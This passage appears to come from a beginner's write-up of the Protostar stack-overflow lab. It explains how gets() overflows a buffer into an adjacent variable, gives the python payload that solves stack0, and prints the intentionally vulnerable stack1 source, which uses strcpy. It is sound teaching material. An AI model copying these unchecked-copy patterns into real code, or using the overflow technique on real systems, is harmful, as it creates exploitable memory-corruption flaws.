 As you can see, we do not interact with the `modified` variable. Therefore the question is how to change this value? First, let's see what the stack contains at this precise moment:

```html
[buffer (64 bytes)] [modified (4 bytes)] [saved ebp] [saved eip]
```

Since the `gets()` function does not check the size of our string, we have to ask ourselves where are the characters going if we exceed 64 bytes? The answer is simple, they go into what is next in the stack, so basically, they are added to the `modified` variable. We can, therefore, change this variable and validate the challenge. Our final payload to validate this challenge will therefore be:

```html
cd /opt/protostar/bin/
python -c "print 'A' * 65" | ./stack0
you have changed the 'modified' variable
```

Perfect! You just made your first exploitation of a **Stack Overflow**! How do you feel?

### Second Exercise "Stack One"

Well, let's move now on to the second exercise. Through the following example, we will understand even better the modification of the variables in the program, and how the variables are arranged in memory.

```html
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

If we decompose the above code, we can see that the program requires an arguments `argv [1]`. Concretely what does this mean? I'm almost sure that you have already seen many times that such thing when you execute a program from your terminal. In some case, you must pass the arguments in your command line such as `./prog arg1 arg2 arg3 etc ...`.
